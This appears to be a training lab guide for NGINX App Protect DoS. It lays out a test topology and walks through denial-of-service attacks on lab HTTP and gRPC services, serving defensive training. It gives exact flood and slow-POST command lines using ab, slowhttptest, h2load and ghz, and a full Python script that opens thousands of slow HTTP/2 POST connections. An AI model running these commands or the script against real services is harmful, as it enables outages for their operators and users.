

NGINX APp Protect DoS
=====================

The remainder of this lab will familiarize you with Denial of Service attacks and help you protect HTTP and gRPC services against them using NGINX AppProtect Denial of Service (NAP DoS).

You will accomplish a few things as part of this lab:

#. Attack and take down an unprotected HTTP Service
#. Install and configure NAP DoS 
#. Teach NAP DoS about legitimate traffic to establish baseline
#. Protect HTTP services from Flood and Slow Loris attacks
#. Protect gRPC services from Flood and Slow Loris attacks
#. Observe and monitor attacks from NAP DoS metrics pulled into an ELK Stack (Elastic Search, Logstash, Kibana)
#. Monitor live activity with the built-in NAP DoS Dashboard

Topology
========

The remainder of this lab will use VMs in your existing deployment that we have not interacted with so far. They are:

Clients
    - Legitimate Traffic -- Contains scripts to act as legitimate client traffic -- 10.1.1.11
    - Attack Traffic Generator -- Contains scripts for DoS attacks to act as bad actor client traffic -- 10.1.1.16
Load Balancers
    - NGINX LB -- L4 edge load balancer that distributes traffic between two NAP DoS instances and appropriate internal ports -- 10.1.1.17
    - NAP DoS 1 -- first L7 load balancer that maps internal ports to backend services -- 10.1.1.15
    - NAP DoS 2 -- second L7 load balancer that maps internal ports to backend services -- 10.1.1.14
    - Arbitrator --  Orchestrates multiple NAP DoS instances to sync attack starts and stops -- 10.1.1.13
Backends
    - JuiceShop -- Sample eCommerce site to serve as a generic backend application -- 10.1.1.19
    - gRPC Application -- "RouteGuide" gRPC service running in a container environment -- 10.1.1.18
Monitoring
    - ELK -- containerized ELK stack pre-configured to monitor NAP DoS instances -- 10.1.1.20

Attack Scripts
==============
All attack scripts are located in ``/scripts`` folder on the "Attacker" VM.

HTTP/1 Flood Attack -- ``/scripts/http1flood.sh``
    - A type of DoS attack in which the attacker manipulates HTTP and sends unwanted requests in order to attack a web server or application.
    - Instead of using malformed packets, spoofing and reflection techniques, HTTP floods require less bandwidth to attack the targeted servers.
    - Typically will target the most resource intensive endpoints on the service.  
    - ``ab -l -r -n 20000000 -c 10000 -d -s 120 http://10.1.1.4:600/`` 
    - This attack uses Apache Benchmark (ab) to send 20 million requests with 10k concurrent connections w/ 120 second timeout looped indefinitely.
    
Slow POST HTTP Attack (Slow Loris) -- ``/scripts/slow_post_http1.sh``
    - A type of attack that relies on the fact that the HTTP protocol, by design, requires requests to be completely received by the server before they are processed.
    - Sends a legitimate POST header with a ``Content-Length`` header specifying the size of the message body.
    - Attacker sends the actual message body at a slow rate or not at all.
    - Attacker then opens thousands of such connections exhausting the logical resources for concurrent connections rather than bandwidth or processing power, allowing the attacker to efficently take out a web server.
    - ``slowhttptest -c 50000 -B -g -o my_body_stats -l 600 -i 5 -r 1000 -s 8192 -u http://10.1.1.4:600/api/Feedbacks/ -x 10 -p 3``
    - 50k connections with 5 second delay in message body for 600 seconds, 1k connections per second, 8192 byte Content-Length header, 10 byte follow-up data, 3 second timeout for HTTP response on probe connection.  Sends delayed POST request in message body to /api/Feedbacks/ endpoint on JuiceShop service.
    
HTTP/2 Flood Attack -- ``/scripts/http2flood.sh``
    - Like the HTTP 1 Flood Attack, but this uses the HTTP/2 protocol.
    - gRPC uses HTTP/2 under the hood so we are targeting the gRPC endpoint with a simple HTTP/2 flood attack.
    - ``h2load -n 10000 -c 1000 http://10.1.1.4:500/routeguide.RouteGuide/GetFeature``
    - Uses h2load to launch an attack using 10000 requests with 1000 clients on the "RouteGuide" gRPC service.

gRPC Message Flood Attack -- ``/scripts/grpcflood.sh``
    - Increasingly, we have seen more DoS attacks using HTTP and HTTP/2 requests or API calls to attack at the application layer (Layer 7), in large part because Layer 7 attacks can bypass traditional defenses that are not designed to defend modern application architectures.
    - Detecting DoS attacks on gRPC applications is extremely hard, especially in modern environments where scaling out is performed automatically. A gRPC service may not be designed to handle high‑volume traffic which makes it an easy target for attackers to take down.
    - Based on statistical anomaly detection, NGINX App Protect DoS successfully identifies bad actors by source IP address and TLS fingerprints, enabling it to generate and deploy dynamic signatures that automatically identify and mitigate these specific patterns of attack traffic. This approach is unlike traditional DoS solutions on the market that detect when a volumetric threshold is exceeded. 
    - ``ghz --insecure -c 10000  -n 100000 -t 2s -z 2s --import-paths ./routeguide --proto route_guide.proto --call routeguide.RouteGuide.GetFeature 10.1.1.4:500``
    - Launch the ghz gRPC benchmarking tool against the “RouteGuide” GRPC service using 10000 request workers with 100000 requests, with a timeout and duration of 2 seconds.

Slow POST gRPC Attack -- ``/scripts/slow_post_http2.sh``
    - The attacker supplies several concurrent slow POST gRPC requests that exceed the server capacity of concurrent requests.
    - This attack sends 100 streams of a POST request to /testing using gRPC

.. code-block:: bash
    :caption: slow_post_http2.sh

    #!/bin/bash
    function int_handler {
        pkill -9 -e python
        exit
    }

    trap int_handler INT

    while true; do
        python slow_post.py  > /dev/null 2>&1 &
        sleep 20
        pkill -9 -e python
    done

Python script referenced by the shell script:

.. code-block:: python
    :caption: slow_post.py

    import ssl
    import socket
    from time import sleep
    from threading import Thread

    def do_attack():
        connection_preface = "PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n"

        # Settings Frame
        settings_frame = "000018040000000000000400ffffff000200000001000300007d00000500004000"
        settings_ack = "000000040100000000"

        # Headers frame sending a POST request to /testing with content-length of 999999999 and end_stream flag set to false
        headers_frame = "00001d0104000000018744866125424d54df834188081713415c2b85cf5c877df7df7df7df7f"

        # Data frame containing a single "A" character as payload
        data_frame = "00000100000000000141"

        connection_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connection_socket = ssl.wrap_socket(connection_socket)
        connection_socket.context.set_ciphers('AES128-GCM-SHA256')
        connection_socket.context.set_alpn_protocols(['h2'])
        connection_socket.connect(('10.1.1.4', 443))
        connection_socket.send(connection_preface)
        connection_socket.send(settings_frame.decode('hex'))
        connection_socket.send(settings_ack.decode('hex'))

        # Open 100 streams (MAXIMUM_CONCURRENT_STREAMS received from Apache) by sending header frames
        for i in range(1, 200):
            if i % 2 == 0:
                continue
            headers_frame = headers_frame.replace(headers_frame[10:18],str(i).zfill(8))
            connection_socket.send(headers_frame.decode('hex'))

        while True:
            for i in range(1, 200):
                if i % 2 == 0:
                    continue
                data_frame = data_frame.replace(data_frame[10:18], str(i).zfill(8))
                connection_socket.send(data_frame.decode('hex'))
            sleep(20)

    if __name__ == '__main__':
        for i in range(2000):
            attack_thread = Thread(target=do_attack)
            attack_thread.start()
    
    

    

    
    
